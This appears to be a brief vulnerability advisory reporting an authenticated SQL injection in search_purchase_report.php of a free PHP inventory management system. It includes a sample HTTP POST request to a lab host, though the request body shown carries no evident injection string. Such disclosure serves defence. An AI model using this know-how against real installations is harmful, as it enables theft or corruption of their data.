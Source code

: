 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/ajax/search_purchase_report.php file, and SQL statement splicing is found in the code fragment.

![image-20250326145948105](images/image-20250326145948105.png)

![image-20250326150049041](images/image-20250326150049041.png)



Vulnerability verification：

```
POST /ample/app/ajax/search_purchase_report.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie:  PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

issuedate=3&customer=all
```

 ![image-20250326145937425](images/image-20250326145937425.png)




































